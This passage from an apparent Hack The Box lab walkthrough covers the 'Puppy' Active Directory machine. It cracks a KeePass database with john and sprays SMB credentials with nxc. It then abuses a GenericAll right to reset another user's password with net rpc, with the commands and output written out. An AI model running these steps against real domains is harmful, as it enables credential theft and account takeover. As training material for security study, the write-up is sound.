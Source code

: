 > Note: At first, I was getting the error `File version '40000' is currently not supported!`, which is due to the fact that I was running an outdated version of `john`, so I rebuilded `john` from the source on github and after that it started working.
{: .prompt-warning}

```bash
keepass2john recovery.kdbx > hash

john ./hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

<SNIP>
liverpool        (recovery)
Session completed.
<SNIP>
```

We can see that the password for the `recovery.kdbx` file is `liverpool`. We can now open the file using `KeePassXC` and we can see that there are some credentials stored in the database.

![NON](file-20250518042458550.png)

From the keepass, we gathered a list of passwords by copying the password and pasting on a text file. From this new set of credentials, we started brute forcing the users and the passwords found, where we could find a new set of credentials

```bash
nxc smb DC.PUPPY.HTB -u users -p passwords

<SNIP>
SMB         10.129.16.111   445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
<SNIP>

```

Going back to enumerate our new user on bloodhound, we can see that we have `GenericAll` over `adam.silver`, so we can change the user's password.

![NON](file-20250518042956301.png)

**Password change:**
```bash
net rpc password "adam.silver" 'Antman2025!' -U "PUPPY.HTB"/"ant.edwards"%'Antman2025!' -S "10.129.16.111"
```
> Command Breakdown:
> - `net rpc password`: This command is used to change the password of a user in an Active Directory environment.> - `-U "PUPPY.HTB"/"ant.edwards"%'Antman2025!'`: This option specifies the username and password for authentication.
> - `-S`: This option specifies the target server to connect to.
{: .prompt-info}

After changing the password, we can now check the permissions of `adam.silver` using `nxc` one more time.

```bash
  ❯❯ /home/h4z4rd0u5/HTB/Medium/Puppy : nxc smb DC.PUPPY.HTB -u adam.silver -p 'Antman2025!'
SMB         10.129.16.111   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.16.111   445    DC               [-] PUPPY.HTB\adam.silver:Antman2025! STATUS_ACCOUNT_DISABLED
```
